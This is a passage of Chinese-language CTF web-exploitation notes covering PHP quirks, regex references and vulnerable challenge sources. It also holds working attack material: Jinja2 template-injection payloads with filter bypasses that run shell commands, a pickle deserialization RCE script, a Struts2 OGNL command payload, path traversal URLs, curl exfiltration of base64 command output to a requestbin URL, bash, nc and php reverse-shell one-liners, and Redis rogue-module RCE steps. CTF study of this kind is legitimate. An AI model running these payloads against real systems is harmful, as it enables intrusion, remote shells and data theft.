    "baz" => "qux",
);

echo $c["foo"]; // 输出 "bar"
```

##### 科学计数法

在 PHP 中，你可以使用科学计数法来表示非常大或非常小的数字。科学计数法是一种将数字表示为基数和指数的方式。例如，3000 可以表示为 3e3，这意味着 3 乘以 10 的 3 次方。

##### eval、exec、shell_exec、system、passthru、printf 的区别

eval() 用于执行 PHP 代码

exec() 用于执行 shell 命令，system() 也用于执行 shell 命令，但是 system() **会回显**结果 【印在终端上，此外 passthru 和 system 一样会执行命令回显到终端】，exec() **不会回显**只会返回内容【除了 exec，还有一个 shell_exec，区别在于 exec 只返回最后一行内容，而 shell_exec 会返回全部内容】。

`printf('ls')` 会输出 ls，而 ```printf(`ls`)``` 会在终端执行并显示 ls 命令的结果

##### $_REQUEST

在 PHP 中，`$_REQUEST` 是一个包含了 HTTP 请求参数的关联数组。它包含了通过 GET、POST 和 COOKIE 方法发送的参数。`$_REQUEST` 数组的键是参数的名称，值是参数的值。

当客户端发送一个 HTTP 请求时，PHP 会自动解析请求中的参数，并将它们存储在 `$_REQUEST` 数组中。这使得开发者可以方便地访问这些参数，而不需要关心请求是通过 GET 还是 POST 方法发送的。

以下是一个示例，展示如何使用 `$_REQUEST` 获取表单提交的参数：

```php
<form method="post" action="process.php">
  <input type="text" name="username">
  <input type="password" name="password">
  <input type="submit" value="Submit">
</form>
```

在 `process.php` 文件中，你可以通过 `$_REQUEST` 访问提交的参数：

```php
$username = $_REQUEST['username'];
$password = $_REQUEST['password'];

// 进行处理逻辑...
```

需要注意的是，`$_REQUEST` 数组包含了所有的请求参数，包括通过 GET、POST 和 COOKIE 方法发送的参数。在某些情况下，这可能会导致安全问题，因为它可以让攻击者通过伪造请求来访问敏感数据。为了增加安全性，建议根据具体的需求使用 `$_GET`、`$_POST` 或 `$_COOKIE` 数组来获取对应的参数。

##### $_SERVER

###### $_SERVER['PHP_SELF']

`$_SERVER['PHP_SELF']` 是一个 PHP 超全局变量，用于获取当前正在执行的脚本文件的文件名。它返回当前脚本的相对路径，相对于服务器的文档根目录。

当用户在浏览器中访问名为 `example.php` 的 PHP 脚本时，`$_SERVER['PHP_SELF']` 的返回格式类似于 `$_SERVER['REQUEST_URI']`，都是相对于服务器的文档根目录的相对路径。

假设用户访问的是 `https://example.com/example.php`，那么 `$_SERVER['PHP_SELF']` 的返回值将是：

```
/example.php
```

如果用户访问的是 `https://example.com/subfolder/example.php?a=1`，那么 `$_SERVER['PHP_SELF']` 的返回值将是：

```
/subfolder/example.php
```

请注意，`$_SERVER['PHP_SELF']` 不包含查询字符串部分，它只返回当前正在执行的脚本文件的路径和文件名。如果您需要获取完整的 URL 路径，包括查询字符串部分，可以使用 `$_SERVER['REQUEST_URI']`。在这种情况下，`$_SERVER['REQUEST_URI']` 的返回值将是 `/subfolder/example.php?a=1`。

使用 `$_SERVER['PHP_SELF']` 时也需要进行适当的验证和过滤，以确保安全性。

---

`$_SERVER['PHP_SELF']` 和 `basename()` 的一个漏洞：

当用户访问的是 `https://example.com/index.php/utils.php/%a0?code=1`，那么 `$_SERVER['PHP_SELF']` 的返回值将是：

```
/index.php/utils.php/%a0
```

解释：当你访问 `/index.php/utils.php` 时，实际上你正在访问 `index.php` 这个文件，而 `/utils.php` 被视为 "路径信息"（path info）。这是因为在 PHP 中，路径信息是可以通过 `$_SERVER['PATH_INFO']` 来获取的，而不是直接作为文件名处理的。所以当你调用 `basename($_SERVER['PHP_SELF'])` 时，它实际上会返回 `index.php`，因为这是正在执行的脚本文件。

当你访问 `/index.php/utils.php/%a0` 时，情况就变了。`%a0` 是一个 URL 编码的非打印字符，PHP 在处理 URL 时会忽略它。因此，`utils.php/%a0` 实际上被解析为 `utils.php`。这就使得 `basename($_SERVER['PHP_SELF'])` 返回 `utils.php`，而不是 `index.php`。

这是因为 PHP 在处理 URL 时，会将 `%a0` 之后的部分视为路径信息，而将 `%a0` 之前的部分视为文件名。所以在这种情况下，`utils.php/%a0` 被解析为 `utils.php`，并且 `basename($_SERVER['PHP_SELF'])` 会返回 `utils.php`。

###### $_SERVER['REQUEST_URI']

`$_SERVER['REQUEST_URI']` 是一个 PHP 超全局变量，用于获取当前请求的 URI（Uniform Resource Identifier），包括查询字符串（如果有）。它返回用户在浏览器中请求的完整 URL 路径。

下面是一个示例，演示如何使用 `$_SERVER['REQUEST_URI']`：

```php
<?php
echo $_SERVER['REQUEST_URI'];
?>
```

假设用户在浏览器中访问 `https://example.com/products.php?id=123`，那么上述示例将输出：

```
/products.php?id=123
```

`$_SERVER['REQUEST_URI']` 可以用于获取当前请求的路径和查询字符串，以便在处理 URL 时进行操作。请注意，`$_SERVER['REQUEST_URI']` 返回的是相对于服务器的文档根目录的相对路径，而不是绝对路径。

需要注意的是，`$_SERVER['REQUEST_URI']` 的值是由用户提供的，并且可能受到恶意用户的攻击。在使用 `$_SERVER['REQUEST_URI']` 时，务必进行适当的验证和过滤，以防止安全漏洞，比如跨站脚本攻击（XSS）和路径遍历攻击。

##### md5

`md5('a')` 返回的是一个32字符的十六进制数，等效于 Python 中的 `hashlib.md5('a'.encode()).hexdigest()`

##### array_search

array_ search这个函数。先看看下面两个判断吧，array_ seach的结
果b不能是假，也就是Array [n]中必须有元素是DGGJ,同时遍历Array [n]之后对数组值
进行判断，如果存在DGGJ则终止程序。
很明显这两个条件是矛盾的，开头提到了如何绕过array_ search是核心点，既然如此就先
了解一下array_search这个函数的作用吧。其作用是在数组中查找元素，并返回其下标。
而**这个函数在进行元素查找的过程中进行的比较是==而非===**，因此同样是采取弱类型比较
的特点，因为是和没有数字字符串比较所以我们只要保证在Array [n]中存在非0下标的元
素中存在值0即可。因为在php中"字符串"==0是成立的。
最后再通过json_ encode ()将我们构造的数组进行一下转化就得到了 Array [n]的json格
式数据。

##### curl_setopt()

curl_setopt() 函数就类似 Python 的 requests，可以访问外部或内部地址。可以用它来构造 127.0.0.1 访问原本访问不到的路径

##### parse_url($url)

parse_url($url) 会把 url 解析为 http、host、port、user、pass、path 等部分

##### filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE))

只要 ip 里面有本机地址 (如 127.0.0.1、0.0.0.0) ，全部过滤

##### mb_substr、mb_strpos

```php
$_page = 'source.php?/../../../../../ffffllllaaaagggg'
$_page = mb_substr( 
  $page,
  0,
  mb_strpos($page . '?',  '?')
);

# 结果会返回 source.php
```

这段代码是PHP语言的一部分，用于获取URL中问号（?）之前的部分。

代码解释如下：

1. `mb_substr()` 函数用于获取字符串的子串。在这里，它用于获取 `$page` 变量中的子串。
2. `$page` 是一个包含URL的字符串。
3. 第一个参数是要截取的字符串，即 `$page`。
4. 第二个参数是截取的起始位置。在这里，起始位置为0，表示从字符串的开头开始截取。
5. 第三个参数是截取的长度。在这里，它使用了 `mb_strpos()` 函数来查找字符串中第一个问号（?）的位置，并将该位置作为截取的长度。
6. `mb_strpos()` 函数用于返回字符串中第一次出现指定字符的位置。在这里，它搜索 `$page . '?'`，即在 `$page` 后面添加一个问号，以确保即使没有问号，也能返回正确的位置。
7. 最后，将截取的子串赋值给 `$_page` 变量。

总体来说，这段代码的目的是从URL中获取问号之前的部分，并将结果存储在 `$_page` 变量中。

##### mt_srand

```php
<?php
mt_srand(372619038);
echo mt_rand();
?>
```

mt_srand(372619038) 设置了 mt_rand() 的种子为 372619038，这意味着接下来的 mt_rand() 函数将会返回一个固定的值

##### phpinfo

在 `User/Group` 栏可以看到当前用户名（当前用户名即权限，如 `root` 或其他任何用户名）

##### 正则表达式记忆表

###### 通用正则

1. **基础匹配**

    | 符号 | 描述                                         |
    | ---- | -------------------------------------------- |
    | .    | 匹配任何除换行符以外的任何单个字符           |
    | \w   | 匹配任何字母数字字符，等同于[a-zA-Z0-9_]     |
    | \W   | 匹配任何非字母数字字符，等同于[^a-zA-Z0-9_]  |
    | \d   | 匹配任何数字，等同于[0-9]                    |
    | \D   | 匹配任何非数字字符，等同于[^0-9]             |
    | \s   | 匹配任何空白字符，包括空格、制表符、换页符等 |
    | \S   | 匹配任何非空白字符                           |

2. **定位符**

    | 符号 | 描述             |
    | ---- | ---------------- |
    | ^    | 匹配输入的开始   |
    | $    | 匹配输入的结束   |
    | \b   | 匹配一个单词边界 |
    | \B   | 匹配非单词边界   |

3. **数量词**

    | 符号  | 描述                               |
    | ----- | ---------------------------------- |
    | *     | 匹配前面的元素零次或多次           |
    | +     | 匹配前面的元素一次或多次           |
    | ?     | 匹配前面的元素零次或一次           |
    | {n}   | 匹配前面的元素n次                  |
    | {n,}  | 匹配前面的元素n次或更多次          |
    | {n,m} | 匹配前面的元素至少n次，但不超过m次 |

4. **特殊字符**

    | 符号 | 描述               |
    | ---- | ------------------ |
    | \    | 转义特殊字符       |
    | []   | 定义字符集         |
    | ()   | 定义一个组         |
    | \|   | 定义一个或操作     |
    | ^    | 创建一个否定字符集 |

5. **预定义字符集**

    | 符号 | 描述                       |
    | ---- | -------------------------- |
    | .    | 匹配除换行符以外的任何字符 |
    | \d   | 匹配数字                   |
    | \D   | 匹配非数字                 |
    | \w   | 匹配字母、数字或下划线     |
    | \W   | 匹配非字母、数字和下划线   |
    | \s   | 匹配任何空白字符           |
    | \S   | 匹配任何非空白字符         |

###### PHP 正则注意事项

在 PHP 中使用正则表达式时，有一些特别的注意事项：

1. **定界符**：PHP 的正则表达式需要在表达式的开始和结束使用定界符。这通常是斜线（/），但也可以是其他字符，如井号（#）或波浪线（~）。例如：`/abc/` 或 `#abc#`。

2. **转义定界符**：如果正则表达式中包含定界符，则必须使用反斜线（\）对其进行转义。例如：`/a\/b/` 匹配 "a/b"。

3. **模式修饰符**：PHP 支持在正则表达式的定界符后添加模式修饰符，以改变正则表达式的行为。例如，

   `i` 使正则表达式对大小写不敏感

   `g` 使正则表达式全局匹配

   `m` 表示多行匹配。multi line-多行匹配使边界字符^和$匹配每一行的开头和结尾，记住是多行，而不是整个字符串的开头和结尾

   `s` 特殊字符圆点。中包含换行符\n默认情况下的圆点。是匹配除换行符\n之外的任何字符，加上s修饰符之后，。中包含换行符\n。

4. **错误处理**：使用 `preg_last_error()` 函数可以获取最后一次正则表达式执行的错误代码，这对于调试正则表达式非常有用。

5. **Unicode 和 UTF-8**：如果处理的是 Unicode 或 UTF-8 字符串，那么需要使用 `u` 模式修饰符。例如：`/你好/u`。

6. **preg_quote()**：如果你需要在正则表达式中使用字面字符串（例如用户输入），那么应该使用 `preg_quote()` 函数对其进行转义，以防止注入攻击。

7. **preg_match 和 preg_match_all**：`preg_match()` 函数在字符串中查找与模式匹配的第一个位置，而 `preg_match_all()` 函数会查找所有匹配的位置。根据你的需要选择使用哪一个。

8. **preg_replace**：可以使用 `preg_replace()` 函数来查找和替换匹配的字符串。

### tplmap

> Python 注入(PHP 也有 SSTI)

#### 路径注入
- 注入某个 URL 路径
```bash
./tplmap.py -u http://xxx/*
# 此处 * 为注入的变量
```
- 拿到 shell
```bash
./tplmap.py -u http://xxx/* --os-shell
```
#### GET 注入
```bash
./tplmap.py -u http://xxx/?a=1
# GET 方法参数为 a
```
#### POST 注入
参数 --data
```bash
./tplmap.py -u http://xxx/ --data='"name=a&pass=*"'
```


### Python

#### 模板注入
建议根据下面一点一点试
```
http://xxx/shrine/{{get_flashed_messages.__globals__['current_app'].config['FLAG']}}
```

#### 执行系统命令

建议根据下面一点一点试（下面的示例层层递进？）

```
http://xxx/?name={{"".__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['popen']("cat /flag").read()}}

# 如果被过滤了 2、3 等数字，用下面这个
http://xxx/?name={{().__class__.__mro__[1].__subclasses__()[407]("cat /flag",shell=True,stdout=-1).communicate()[0]}}

# 在上面的基础上，又被过滤单、双引号
http://xxx/?name={{().__class__.__mro__[1].__subclasses__()[407](request.args.a,shell=True,stdout=-1).communicate()[0]}}&a=cat /flag

# 继续被过滤 args
http://xxx/?name={{().__class__.__mro__[1].__subclasses__()[407](request.values.a,shell=True,stdout=-1).communicate()[0]}}&a=cat /flag

# 继续 过滤了方括号，可以用__getitem__绕过
http://xxx/?name={{().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(407)(request.values.a,shell=True,stdout=-1).communicate().__getitem__(0)}}&a=cat /flag

# 继续，过滤了下划线_
http://xxx/?name={{(lipsum | attr(request.values.b)).os.popen(request.values.a).read()}}&a=cat /flag&b=__globals__

# 继续 过滤了os，可以通过get来获取
http://xxx/?name={{(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read()}}&a=__globals__&b=os&c=cat /flag

# 继续 过滤了request，但是是再{{}}中过滤了request，没有在过滤request
http://xxx/?name=&a=__globals__&b=os&c=cat /flag
```

在上面的基础上，基本啥都被绕过了

```
http://xxx/?name={%set%20xiahua=(lipsum|select|string|list).pop(24)%}










```

#### 文件漏洞

##### os.path.join()

**绝对路径拼接漏洞** : `os.path.join(path,*paths)` 函数用于将多个文件路径连接成一个组合的路径。第一个函数通常包含了基础路径，而之后的每个参数被当作组件拼接到基础路径之后。 然而，这个函数有一个少有人知的特性，如果拼接的某个路径以 / 开头，那么包括基础路径在内的所有前缀路径都将被删除，该路径将视为绝对路径。例如

```python
    with open(os.path.join("uploads/", '/flag', "r") as f:
        return f.read()
```

此时会返回 `/flag` 文件

#### Unserializer Pickle

示例
```python
import base64
import pickle

import httpx


class A:
    def __reduce__(self):
        import subprocess
        s = '''
import subprocess

r = subprocess.run(
    'cat flag', # 此处可修改命令
    shell=True,
    check=True,
    stdout=subprocess.PIPE,
    stderr=subprocess.STDOUT
)
print(r.stdout.decode())
        '''
        return (subprocess.check_output, (["python3","-c",s],))


a = A()
data = {
    'payload': base64.b64encode(pickle.dumps(a)).decode()
}
a = base64.b64decode(data['payload'])
r = httpx.put('http://114.67.175.224:14014/flag', json=data)
print(f'r:{r.text}')
```

#### 语法备忘

##### 将十六进制转为十进制

`num = int(hexadecimal, 16)`

##### 按位与 &

运算规则：0&0=0; 0&1=0; 1&0=0; 1&1=1

##### 按位或 |

运算规则：0|0=0; 0|1=1; 1|0=1; 1|1=1

##### 异或 ^ 

运算规则：0^0=0; 0^1=1; 1^0=1; 1^1=0


### Java

#### URL 绕过

先试试目录穿越

```
http://xxx/download?filename=../../../web.xml
```

找到可疑的路由(com.test2.aaa1.testURL)后，构造路径

```
http://xxx/download?filename=../../../classes/com/test2/aaa1/testURL.class
```

下载testURl.class文件后进行反编译，审计代码。使用绕过协议绕过

```
http://xxx/testURL?url=url:file:///flag
http://xxx/testURL?url=%00file:///flag
```

#### Struts2

模版漏洞

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"env"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

##### Struts2-Scan

目前测试该工具扫不了漏洞，使用说明可以自己找缓存的 README

## 数据外带

### URL 外带数据

1.首先进入数据转发网站 http://requestbin.cn/ ，创建一个 RequestBin

2.复制 RequestBin 提供的临时地址，如 `http://requestbin.cn:80/ue9ugeue`

3.使用 POST 外带数据到该接口，如

```
curl -X POST -d `ls|base64 -b 0` http://requestbin.cn:80/ue9ugeue
```

- `-b 0` 的意思是将 ls 的内容进行Base64编码，并将编码后的结果输出为单行

- 这段代码是利用 Linux 会将 `` 中的内容当作命令执行的特性（而且会优先执行），并通过 POST 方法传至我们需要的 URL

4.刷新创建的 RequestBin 页面，会得到最近 20 条请求信息。查看 POST 的 RAW BODY 内容，解码 base64 即可得到服务器传来的执行结果

### 反弹 shell

- 完成反弹 shell 前需要确保服务端相应的端口开启
- 流程：服务端执行一段命令监听端口，题目端执行一段命令将 shell 反弹至服务端，在服务端中操作 shell

服务器端执行下面命令监听端口

```bash
nc -lvnp port
```

题目端执行下面内容，常见反弹 shell 语句（命令中的 ip 和 port 即为具体的 ip 和端口）如：

**bash反弹**

```bash
bash -i >& /dev/tcp/ip/port 0>&1
```

**nc反弹**

```bash
mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f
```

**php反弹**

```bash
 php -r '$sock=fsockopen(ip,port);exec("/bin/bash -i <&3 >&3 2>&3");'
```

## 常用软件的 RCE 漏洞

### Redis

#### 条件：已知密码 且 能连接蚁剑

先上传 `exp.so` 文件到 PHP 项目目录 (下载 https://github.com/Dliv3/redis-rogue-server/blob/master/exp.so [文件缓存在 M1 的 `/Users/Cyberbolt/Library/CloudStorage/OneDrive-个人/编程/CTF/工具/注入工具/RCE漏洞/Redis/exp.so` 中])

然后要用蚁剑插件进行连接，用插件来进行Redis提权



进入之后添加，然后输入已知的 Redis 密码：




接着，我们要利用module load 命令加载这个文件，然后才能进行RCE，所以在虚拟命令行输入

```bash
MODULE LOAD /var/www/html/exp.so
```


然后我们就可以进行命令执行了

```bash
system.exec "ls /"
```

```bash
system.exec "cat /f*"
```

如图



## 经典错题

### 攻防世界 unseping

类型 反序列化

```php
<?php
highlight_file(__FILE__);

class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __destruct(){
      	// 如果 $this->method 的字符串内容在数组 array("ping") 中（意思是：'ping' 在 ['ping'] 中）
        if (in_array($this->method, array("ping"))) {
          	// 调用 $this->method 方法，参数为 $this->args
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
 
    function ping($ip){
        exec($ip, $result);
      	// 打印变量的详细信息
        var_dump($result);
    }

    function waf($str){
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}

$ctf=@$_POST['ctf'];
@unserialize(base64_decode($ctf));
?>
```

### 攻防世界 easyphp

```php
<?php
highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;

$a = $_GET['a'];
$b = $_GET['b'];

if(isset($a) && intval($a) > 6000000 && strlen($a) <= 3){
    if(isset($b) && '8b184b' === substr(md5($b),-6,6)){
        $key1 = 1;
        }else{
            die("Emmm...再想想");
        }
    }else{
    die("Emmm...");
}

$c=(array)json_decode(@$_GET['c']);
if(is_array($c) && !is_numeric(@$c["m"]) && $c["m"] > 2022){
    if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0])){
        $d = array_search("DGGJ", $c["n"]);
        $d === false?die("no..."):NULL;
        foreach($c["n"] as $key=>$val){
            $val==="DGGJ"?die("no......"):NULL;
        }
        $key2 = 1;
    }else{
        die("no hack");
    }
}else{
    die("no");
}

if($key1 && $key2){
    include "Hgfks.php";
    echo "You're right"."\n";
    echo $flag;
}

?>
```

### 攻防世界 Web_php_unserialize

```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```

### NSS [ZJCTF 2019]NiZhuanSiWei

https://www.ctfer.vip/problem/22

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

### NSS [鹤城杯 2021]EasyP

https://www.ctfer.vip/problem/463

```php
<?php
include 'utils.php';

if (isset($_POST['guess'])) {
    $guess = (string) $_POST['guess'];
    if ($guess === $secret) {
        $message = 'Congratulations! The flag is: ' . $flag;
    } else {
        $message = 'Wrong. Try Again';
    }
}

if (preg_match('/utils\.php\/*$/i', $_SERVER['PHP_SELF'])) {
    exit("hacker :)");
}

if (preg_match('/show_source/', $_SERVER['REQUEST_URI'])){
    exit("hacker :)");
}

if (isset($_GET['show_source'])) {
    highlight_file(basename($_SERVER['PHP_SELF']));
    exit();
}else{
    show_source(__FILE__);
}
?> 
```

### NSS [鹏城杯 2022]简单包含

https://www.ctfer.vip/problem/2422

这道题有一定的误导性

```php
highlight_file(__FILE__);
include($_POST["flag"]);
//flag in /var/www/html/flag.php;
```

### [鹤城杯 2021]Middle magic

https://www.ctfer.vip/problem/464

```php
<?php
highlight_file(__FILE__);
include "./flag.php";
include "./result.php";
if(isset($_GET['aaa']) && strlen($_GET['aaa']) < 20){

    $aaa = preg_replace('/^(.*)level(.*)$/', '${1}<!-- filtered -->${2}', $_GET['aaa']);

    if(preg_match('/pass_the_level_1#/', $aaa)){
        echo "here is level 2";
        
        if (isset($_POST['admin']) and isset($_POST['root_pwd'])) {
            if ($_POST['admin'] == $_POST['root_pwd'])
                echo '<p>The level 2 can not pass!</p>';
        // START FORM PROCESSING    
            else if (sha1($_POST['admin']) === sha1($_POST['root_pwd'])){
                echo "here is level 3,do you kown how to overcome it?";
                if (isset($_POST['level_3'])) {
                    $level_3 = json_decode($_POST['level_3']);
                    
                    if ($level_3->result == $result) {
                        
                        echo "success:".$flag;
                    }
                    else {
                        echo "you never beat me!";
                    }
                }
                else{
                    echo "out";
                }
            }
            else{
                
                die("no");
            }
        // perform validations on the form data
        }
        else{
            echo '<p>out!</p>';
        }

    }
    
    else{
        echo 'nonono!';
    }

    echo '<hr>';
}

?>
```

